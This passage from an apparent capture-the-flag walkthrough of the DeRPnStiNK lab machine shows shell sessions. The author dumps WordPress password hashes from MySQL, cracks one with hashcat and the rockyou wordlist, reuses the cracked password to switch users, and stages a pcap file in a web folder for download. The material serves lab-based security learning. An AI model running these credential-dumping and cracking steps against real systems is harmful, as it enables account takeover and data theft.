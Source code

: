 ```bash
www-data@DeRPnStiNK:/var/www/html/weblog$ mysql -u root -p
mysql -u root -p     
Enter password: mysql
mysql> show databases;   
show databases;            
+--------------------+         
| Database           |              
+--------------------+       
| information_schema |        
| mysql              |     
| performance_schema |       
| phpmyadmin         |      
| wordpress          |   
+--------------------+         
5 rows in set (0.09 sec)
mysql> use wordpress;
Database changed                    
mysql> select user_login,user_pass from wp_users;
select user_login,user_pass from wp_users;
+-------------+------------------------------------+
| user_login  | user_pass                          |
+-------------+------------------------------------+
| unclestinky | $P$BW6NTkFvboVVCHU2R9qmNai1WfHSC41 |
| admin       | $P$BgnU3VLAv.RWd3rdrkfVIuQr6mFvpd/ |
+-------------+------------------------------------+
2 rows in set (0.00 sec)
```

We copy the password hash from unclestinky to crack it.

```bash
root@kali:~$ echo '$P$BW6NTkFvboVVCHU2R9qmNai1WfHSC41' > mysql_hash.txt
root@kali:~$ zcat /usr/share/wordlists/rockyou.txt.gz > rockyou.txt
```

We run hashcat to crack the hash and after a minutes we have the password.

```bash
root@kali:~$ hashcat -a 0 -m 400 mysql_hash.txt rockyou.txt
...
$P$BW6NTkFvboVVCHU2R9qmNai1WfHSC41:wedgie57
```

I switch to the **stinky** user, in the Documents directory I found the **derpissues.pcap** file, I move this file to the **/var/www/html/temporary** file to download it to the attacking machine for analyze it.

```bash
www-data@DeRPnStiNK:/$ su stinky
su stinky
Password: wedgie57

stinky@DeRPnStiNK:/$ id
id
uid=1001(stinky) gid=1001(stinky) groups=1001(stinky)
stinky@DeRPnStiNK:~/Documents$ cp derpissues.pcap /var/www/html/temporary 
```
